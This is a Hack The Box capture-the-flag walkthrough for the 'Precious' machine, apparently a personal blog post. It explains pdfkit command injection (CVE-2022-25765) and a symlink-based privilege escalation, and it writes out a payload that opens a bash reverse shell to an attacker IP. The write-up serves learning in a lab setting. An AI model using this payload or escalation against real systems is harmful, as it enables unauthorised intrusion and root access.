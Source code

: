 ## **Hack The Box - Precious**

**Creator:** [Nauten](https://app.hackthebox.com/users/27582)

**Difficulty:** Easy

**Link:** [Precious](https://app.hackthebox.com/machines/513)

---

<ins> **Introduction** <ins>


![infocard](/docs/assets/images/HTB/precious/precious01.png)

*Precious* is an Easy level Linux system on Hack The Box. This machine had me exploit [CVE-2022-25765](https://www.cve.org/CVERecord?id=CVE-2022-25765). Which is a *Command Injection* vulnerability when the URL is not properly sanitized on systems running versions of *pdfkit* older than 0.8.7.2.
Once inside the system I was able to enumerate login credentials for a user with sudo privileges over a dependency update script. Running the script I was able to see that it called to a file that didn't exist on the system, so I created a symbolic link to the *root.txt* file named after the file called in the update script. 
Running the script again with sudo privileges caused it to output the contents of the *symbolic link*, which contained the flag I wanted.

---


<ins> **Enumeration** </ins>

I start every machine off with an *nmap service scan*.

`sudo nmap -sV -sC -O <target_ip>`

![nmap output](/docs/assets/images/HTB/precious/precious02.png)

I can see that port *22/tcp* is open to *ssh* traffic using *OpenSSH 8.4p1* and that port *80/tcp* is open to *http* traffic using *nginx 1.18.0*. I ran *searchsploit* on both but came up empty handed.

![searchsploit nginx](/docs/assets/images/HTB/precious/precious03.png)

![searchsploit openssh](/docs/assets/images/HTB/precious/precious04.png)

I also ran a *nikto* scan on the machine that didn't have very many results. There were a few notes about the header on the *nginx* but outside of that not much else.

`nikto -h <target_ip>`

![nikto](/docs/assets/images/HTB/precious/precious05.png)

---


<ins> **Web Enumeration** </ins>

When I first navigate to the web page I get an error that it doesn't exist. I noticed it convert the *url* to a *host_name*, so to view the web application I had to add the *ip_address* and the *host_name* associated with it to the */etc/hosts* file on my machine.

![/etc/hosts](/docs/assets/images/HTB/precious/precious06.png)

From there I can view a webpage that converts any *url* entered into a submission bar into a *pdf*. Seems kind of handy, except when I tested it only a blank pdf is loaded.

![webpage](/docs/assets/images/HTB/precious/precious07.png)

![blank pdf](/docs/assets/images/HTB/precious/precious08.png)

I went on to do a lot that didn't work, from running *gobuster* and loading the web application in *burp suite* to try to see if I could figure out what was going on. Eventually I got around to inspecting the page soucre of the *pdf* that is created and was able to find the service doing the conversion and it's version *pdfkit v0.8.6*.

![Inspect source](/docs/assets/images/HTB/precious/precious15.png)

![pdfkit version](/docs/assets/images/HTB/precious/precious16.png)

Searching for *pdfkit* vulnerabilities I was able to find [CVE-2022-25765](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)

> In versions of pdfkit older than 0.87 the application could be vulnerable command injection where the URL is not properly sanitized.

![CVE](/docs/assets/images/HTB/precious/precious17.png)

---


<ins> **Exploitation**

So I just need to tack a reverse shell onto the end of the url that I have the webpage convert with *pdfkit* and catch it with a *listener* on my host system. 

`nc -l <host_ip> port`

![listener](/docs/assets/images/HTB/precious/precious19.png)

```
  http://10.129.79.142/?name=#{\%20'bash -c "bash -i >& /dev/tcp/10.10.14.16/4242 0>&1"'}
```

\*Jekyll really does not like the url encoded space in that payload, there is no escape character in the payload itself but I couldn't figure out how else to get jekyll to accept it when building out the page. 
  
The reverse shell was found on [payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

![reverse shell](/docs/assets/images/HTB/precious/precious18.png)

The payload starts with a url comprised of the ip address of the target system, `?name=` is a query parameter used to pass additional data to the server through the URL. The `#` is used to concatenate the payload. 
Everything following it gets wrapped in `{}` to indicate the text within them is a command, `%20` is a url encoded space character, then everything to follow is wrapped in `''`,  `bash -c` allows a string to be run as a command, `bash -i` starts and interactive session of bash and `>&` is used to redirect the *stdout* and *stderr* to a file descriptor.
`/dev/tcp/10.10.14.16/4242` is the file descriptor that allows the process to communicate with the *host_ip* on port 4242, then `0>&1` is used to redirect the stdin to the file descriptor.

The results is a shell with the same access rights as the process running the script on the target system, which in this case was *ruby*

![whoami](/docs/assets/images/HTB/precious/precious20.png)

Unfortunately User ruby doesn't have a lot of permissions or even access to read very many files. The home directory lists one other user *henry*, and inside of Henry's home directory is the *user.txt* file containing the user flag. *Ruby* can't read it though.

![henry](/docs/assets/images/HTB/precious/precious21.png)

![nouser.txt](/docs/assets/images/HTB/precious/precious22.png)

I looked around on the file system for anything *ruby* could do to possibly move me to another user and found nothing for a long time. Finally I decided to search for any other files related to user *henry* and found a file that had a *username:password* text format for *henry*.

![Henry Password](/docs/assets/images/HTB/precious/precious23.png)

---


<ins> **Privilege Escalation** </ins>

With Henry's password at hand I'm able to just *ssh* into the machine using the open service on port 22 and then cat the user.txt file once I'm in.

![ssh](/docs/assets/images/HTB/precious/precious24.png)

![User Flag](/docs/assets/images/HTB/precious/precious25.png)

The first thing I do when I get access to a new user on a linux machine is run `sudo -l` to see what they are allowed to do. In Henry's case they are able to run a script that will update the dependencies for *ruby* with root access without a password, so I ran it to see what all it did, which seems to be generate an error.

`sudo /usr/bin/ruby /opt/update_dependencies.rb`

![sudo -l](/docs/assets/images/HTB/precious/precious26.png)

![Dependency Error](/docs/assets/images/HTB/precious/precious27.png)

To me it looked like the script was trying to read the contents of the *dependencies.yml* file and perhaps from there it will try to write in any updates to it, except the file doesn't exist so an error gets generated.

I can create a *symbolic* link to the *root.txt* file and name it *dependencies.yml* and when I run the script using *sudo* the script should read the *root.txt* file with root privileges when it tries to call *dependencies.yml*.

```
ln -s /root/root.txt dependencies.yml 
sudo /usr/bin/ruby /opt/update_dependencies.rb 
```

![root flag](/docs/assets/images/HTB/precious/precious28.png)

![pwned](/docs/assets/images/HTB/precious/precious29.png)

---


<ins> **Final Thoughts** </ins>

This machine was definitely on the Easy side, I'm not sure that's a testament to my own skills improving so much as this one just kind of had everything laid out for me. I think it would actually be a good candidate for the "Beginner Track" if it's not already on one somewhere. 
This was my second time having a real use for symbolic links and my first time actually breaking down a reverse shell payload piece by piece to understand what exactly was going on.
I wasted a lot of time on this one just being unorganized and moving on to new tools before gathering all of the relevant information I had already found. In the future I will definitely be more organized in my approach to machines thanks to *Precious*.



